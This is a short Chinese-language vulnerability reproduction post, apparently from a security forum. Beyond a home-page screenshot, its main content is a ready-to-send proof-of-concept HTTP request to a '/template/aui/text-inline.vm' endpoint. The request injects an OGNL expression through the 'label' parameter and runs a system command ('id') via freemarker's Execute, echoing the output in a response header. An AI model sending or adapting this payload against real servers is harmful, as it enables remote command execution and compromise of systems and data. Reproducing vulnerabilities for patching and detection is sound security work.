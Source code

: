 [![](assets/1706059949-dfe20e4785882678de0ba4b89e3322e9.png)](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-c0387cf297967510f9cbb5a8e98dfebfe6ffee87.png)

# 复现过程

1.  网站首页如下图：

[![](assets/1706059949-53ae997af9a3db00dd8132393cfa888e.png)](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-0e5afe5c961024822eab9395419af637b82f0071.png)

1.  使用如下 POC 进行漏洞复现

```bash
POST /template/aui/text-inline.vm HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@org.apache. struts2.ServletActionContext@getResponse().setHeader('Cmd-Responses-Header',(new freemarker.template.utility.Execute()).exec({"id"}))
```
